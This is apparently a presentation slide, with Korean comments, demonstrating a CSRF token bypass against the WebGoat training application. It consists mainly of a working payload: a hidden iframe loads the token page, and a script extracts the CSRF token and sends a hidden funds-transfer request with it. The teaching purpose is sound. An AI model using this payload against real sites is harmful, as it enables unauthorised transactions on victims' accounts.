

CSRF token By-Pass

<script>function token(){ 
var framedoc=document.getElementsByTagName("iframe")[0].contentDocument;
//첫 번째 불러들인 토큰 발급 페이지의 내용을 framedoc 변수에 저장
var token=framedoc.form.CSRFToken.value; 
//토큰 값을 token 변수에 저장 
var Img=new Image(); 
//이미지 객체 생성 
Img.src="http://server:8080/WebGoat/attack?Screen=85126574&menu=900&transferFunds=5000&CSRFToken="+token; 
Img.src.width=0; 
Img.src.height=0; 
}</script>

//토큰 발급 및 전송 페이지를 iframe을 통해 현재 페이지에 로드한 후 onload(로드가 완료될 때 발생하는 이벤트)로 token함수 호출 
<iframe src="http://192.168.184.130:8080/WebGoat-5.4/attack?Screen=154&menu=900&transferFunds=main" onload=token() width=0 height=0></iframe>